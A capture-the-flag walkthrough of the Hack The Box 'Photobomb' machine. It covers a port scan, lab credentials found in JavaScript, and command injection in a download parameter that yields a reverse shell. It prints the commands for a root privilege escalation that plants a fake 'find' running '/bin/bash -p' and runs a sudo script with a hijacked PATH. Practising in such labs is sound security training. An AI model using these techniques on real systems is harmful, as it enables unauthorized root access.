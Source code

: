 # Photobomb
https://app.hackthebox.com/machines/Photobomb

## Port scan

### Tool used: nmap
<br>

```
nmap -p- photobomb.htb

Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-19 17:05 CDT
Nmap scan report for photobomb.htb (10.10.11.182)
Host is up (0.078s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 38.18 seconds
```

First, we take a look at the website:<br><br>

![web](./docs/photobomb/photobomb_01_web.png)

![login](./docs/photobomb/photobomb_02_login.png)

The website has a link to login, but we are presented with a sign-in popup. Looking at the HTML, we see a reference to "photobomb.js". <br><br>

```html
<!DOCTYPE html>
<html>
<head>
  <title>Photobomb</title>
  <link type="text/css" rel="stylesheet" href="styles.css" media="all" />
  <script src="photobomb.js"></script>
</head>
<body>
  <div id="container">
    <header>
      <h1><a href="/">Photobomb</a></h1>
    </header>
    <article>
      <h2>Welcome to your new Photobomb franchise!</h2>
      <p>You will soon be making an amazing income selling premium photographic gifts.</p>
      <p>This state of-the-art web application is your gateway to this fantastic new life. Your wish is its command.</p>
      <p>To get started, please <a href="/printer" class="creds">click here!</a> (the credentials are in your welcome pack).</p>
      <p>If you have any problems with your printer, please call our Technical Support team on 4 4283 77468377.</p>
    </article>
  </div>
</body>
</html>
```

Looking at the JavaScript file, we see some hard-coded credentials for "tech support".<br><br>

```js
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```

Following this link, we are taken to the "printer" page, where you can download various images in various resolutions.<br><br>

![printer](./docs/photobomb/photobomb_03_printer.png)

Using *Burp*, we see that during the download request, 3 parameters are being passed:<br><br>

![download](./docs/photobomb/photobomb_04_download.png)

This looks like a good spot for remote code execution, so we put some python code between the 2nd and 3rd parameters, and upon forwarding the request, we are able to get a reverse shell as **wizard**.<br><br>

![rshell](./docs/photobomb/photobomb_06_rshell.png)

Right away, we get the user flag:

**user.txt**

```
9b9f0da8************************
```

Next, we see what kind of privileges we have:<br><br>

```
$ sudo -l
sudo -l

Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

Looking at "cleanup.sh" we see that there is a call to the **find** command, but it is not absolute.<br><br>

```sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

This means that we can set a new path for our custom **find** command, which will launch a privileged shell instead of searching for files.<br><br>

```
$ cd /tmp

$ touch find

$ echo "/bin/bash -p" > find

$ chmod +x find

$ sudo PATH=/tmp:$PATH /opt/cleanup.sh

root@photobomb:/home/wizard/photobomb# id

uid=0(root) gid=0(root) groups=0(root)
root@photobomb:/home/wizard/photobomb# 
```

From here, we can capture the root flag:

**root.txt**

```
711df426************************
```